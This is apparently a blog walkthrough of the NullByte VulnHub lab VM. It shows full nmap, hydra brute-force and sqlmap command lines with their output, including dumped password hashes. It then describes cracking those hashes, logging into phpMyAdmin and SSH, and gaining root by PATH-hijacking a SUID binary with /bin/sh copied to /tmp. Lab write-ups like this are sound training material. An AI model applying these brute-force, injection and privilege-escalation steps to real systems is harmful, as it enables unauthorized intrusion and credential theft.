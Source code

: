 ```yaml
---
layout: post
title: Nullbyte %0 walkthrough
tags:
- "%0"
- ly0n
- nullbyte
- vm
- vulnhub
---
```

Hey everyone this is the nullbyte VM walkthrough from vulnhub that was created by ly0n.
So we started with an nmap scan to check the open ports see their banners...>root@Tesla:~# nmap 192.168.7.133 -p- -A

Starting Nmap 6.49BETA5 ( https://nmap.org ) at 2015-10-31 14:35 EET
Nmap scan report for 192.168.7.133 (192.168.7.133)
Host is up (0.00017s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Null Byte 00 - level 1
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          34114/tcp  status
|_  100024  1          40102/udp  status
777/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 16:30:13:d9:d5:55:36:e8:1b:b7:d9:ba:55:2f:d7:44 (DSA)
|   2048 29:aa:7d:2e:60:8b:a6:a1:c2:bd:7c:c8:bd:3c:f4:f2 (RSA)
|_  256 60:06:e3:64:8f:8a:6f:a7:74:5a:8b:3f:e1:24:93:96 (ECDSA)
34114/tcp open  status  1 (RPC #100024)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          34114/tcp  status
|_  100024  1          40102/udp  status
MAC Address: 00:0C:29:AD:C8:3A (VMware)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.19
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

i tried to connect on the ssh first but there was no clue there so i moved into the http enumeration

[![null1](https://trickster0.files.wordpress.com/2015/11/null1.png)](https://trickster0.files.wordpress.com/2015/11/null1.png)
i downloaded that illuminati cursed symbol picture file(btw i have nothing to do with illuminati and all that weird crap if u saw that triangled at the top of my website :P ) and checked it out for some steg style

more

>root@Tesla:~/Desktop# file main.gif 
main.gif: GIF image data, version 89a, 235 x 302
root@Tesla:~/Desktop# exif
bash: exif: command not found
root@Tesla:~/Desktop# strings main.gif 
GIF89a
P-): kzMb5nVYJw
cccIII@@@GGG444999```<<>>EEE
???^^^
.....snippet....

w8 a sec that looks like a smiley!!! what are u hiding???unveil ur secrets sesame..

[![null2](https://trickster0.files.wordpress.com/2015/11/null2.png)](https://trickster0.files.wordpress.com/2015/11/null2.png)
after checking the source code this is what we got

>-- this form isn't connected to mysql, password ain't that complex

of course first thing that popped to my head was bruteforcing with the classic rockyou.txt wordlist

>root@Tesla:~/Desktop# hydra -l none -P /usr/share/wordlists/rockyou.txt 192.168.7.133 http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2015-10-31 14:48:16
[WARNING] Restorefile (./hydra.restore) from a previous session found, to prevent overwriting, you have 10 seconds to abort...
[DATA] max 16 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~14008 tries per task
[DATA] attacking service http-post-form on port 80
[80][http-post-form] host: 192.168.7.133   login: none   password: elite
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2015-10-31 14:48:38

and then we used the pass elite

[![null3](https://trickster0.files.wordpress.com/2015/11/null3.png)](https://trickster0.files.wordpress.com/2015/11/null3.png)
after that i just typed enter to see  possible output

[![null4](https://trickster0.files.wordpress.com/2015/11/null4.png)](https://trickster0.files.wordpress.com/2015/11/null4.png)
this probably uses the mysql db so i thought to check for sql injection and i was correct so i started using sqlmap to speed up the process

>root@Tesla:~/Desktop# sqlmap -u http://192.168.7.133/kzMb5nVYJw/420search.php?usrtosearch=a --dbs

available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] seth

root@Tesla:~/Desktop# sqlmap -u http://192.168.7.133/kzMb5nVYJw/420search.php?usrtosearch=a -D mysql --tables
This gave me only a user table

root@Tesla:~/Desktop# sqlmap -u http://192.168.7.133/kzMb5nVYJw/420search.php?usrtosearch=a -D mysql -T user --columns
User,Password

root@Tesla:~/Desktop# sqlmap -u http://192.168.7.133/kzMb5nVYJw/420search.php?usrtosearch=a -D mysql -T user -C User,Password --dump
Database: mysql
Table: user
[6 entries]
+------------------+-------------------------------------------+
| User             | Password                                  |
+------------------+-------------------------------------------+
| root             | *18DC78FB0C441444482C7D1132C7A23D705DAFA7 |
| root             | *18DC78FB0C441444482C7D1132C7A23D705DAFA7 |
| root             | *18DC78FB0C441444482C7D1132C7A23D705DAFA7 |
| root             | *18DC78FB0C441444482C7D1132C7A23D705DAFA7 |
| debian-sys-maint | *BD9EDF51931EC5408154EBBB88AA01DA22B8A8DC |
| phpmyadmin       | *18DC78FB0C441444482C7D1132C7A23D705DAFA7 |
+------------------+-------------------------------------------+

root@Tesla:~/Desktop# sqlmap -u http://192.168.7.133/kzMb5nVYJw/420search.php?usrtosearch=a -D phpmyadmin --tables
pma_users
this actually gave me nothing :/
root@Tesla:~/Desktop# sqlmap -u http://192.168.7.133/kzMb5nVYJw/420search.php?usrtosearch=a -D seth

+-------+
| users |
+-------+

root@Tesla:~/Desktop# sqlmap -u http://192.168.7.133/kzMb5nVYJw/420search.php?usrtosearch=a -D seth -T users --columns

+----------+-------------+
| Column   | Type        |
+----------+-------------+
| position | text        |
| user     | text        |
| id       | smallint(6) |
| pass     | text        |
+----------+-------------+

root@Tesla:~/Desktop# sqlmap -u http://192.168.7.133/kzMb5nVYJw/420search.php?usrtosearch=a -D seth -T users -C id,user,pass --dump

+----+--------+---------------------------------------------+
| id | user   | pass                                        |
+----+--------+---------------------------------------------+
| 1  | ramses | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE |
| 2  | isis   | --not allowed--                             |
+----+--------+---------------------------------------------+


of course after this i checked on google for the hashes and luckily two of them have been cracked already

[![null5](https://trickster0.files.wordpress.com/2015/11/null5.png)](https://trickster0.files.wordpress.com/2015/11/null5.png)

[![null6](https://trickster0.files.wordpress.com/2015/11/null6.png)](https://trickster0.files.wordpress.com/2015/11/null6.png)
according to the databases that we found, there was a phpmyadmin one so i figured there should be phpmyadmin and quite accurately...

[![null7](https://trickster0.files.wordpress.com/2015/11/null7.png)](https://trickster0.files.wordpress.com/2015/11/null7.png)
after a few tries the username was root and the password sunnyvale

[![screenshot from 2015-10-31 150948](https://trickster0.files.wordpress.com/2015/11/screenshot-from-2015-10-31-150948.png)](https://trickster0.files.wordpress.com/2015/11/screenshot-from-2015-10-31-150948.png)
i figured that i could upload a web shell but there would be no reason for that since that would give me www access on the server and i dont like it since i remembered that i have actually found a few username and passwords to try out on the ssh :D

[![null8](https://trickster0.files.wordpress.com/2015/11/null8.png)](https://trickster0.files.wordpress.com/2015/11/null8.png)
obviously i connected as ramses with the password omega and this is the system enumeration step

[![null9](https://trickster0.files.wordpress.com/2015/11/null9.png)](https://trickster0.files.wordpress.com/2015/11/null9.png)
apparently there is an interested file named procwatch in the /var/www/backup folder

[![null10](https://trickster0.files.wordpress.com/2015/11/null10.png)](https://trickster0.files.wordpress.com/2015/11/null10.png)
in the read me file apparently he says that he needs to fix this messs... so we are lucky that we arrived early to the party before he fixed it. It looks like procwatch tries to run sh and ps but it doesnt do a very good job at it cause maybe the path location is wrong?or maybe god forbid havent been set yet? we will check it out with some binary tree analysis


>objdump -D procwatch

so now we are gonna check the main part of the program cause if we actually manage to run a shell there we will get root privileges in other words things will escalate quite soon :D

[![null11](https://trickster0.files.wordpress.com/2015/11/null11.png)](https://trickster0.files.wordpress.com/2015/11/null11.png)
apparently it pushes into the stack 7370 which in ascii is sp but because of little endian it is ps and then pushes a nullbyte(hence the name of the vm i guess) so the path is not set and if i will change it to a path i can use to get a shell things will get nastyyyy :P

[![null12](https://trickster0.files.wordpress.com/2015/11/null12.png)](https://trickster0.files.wordpress.com/2015/11/null12.png)
obviously u can see from the picture that i added the /tmp folder in the $PATH and copied the /bin/sh to the tmp folder as ps and gave executable permissions. so after i ran procwatch we got a root shell!!!
time to get the proof that we were here ;)

[![null13](https://trickster0.files.wordpress.com/2015/11/null13.png)](https://trickster0.files.wordpress.com/2015/11/null13.png)

so that is it folks. i want to thank ly0n for this challenge it was quite nice especially the way i had to realize how procwatch works or to be exact doesnt work :P and fianlly exploit it ;)
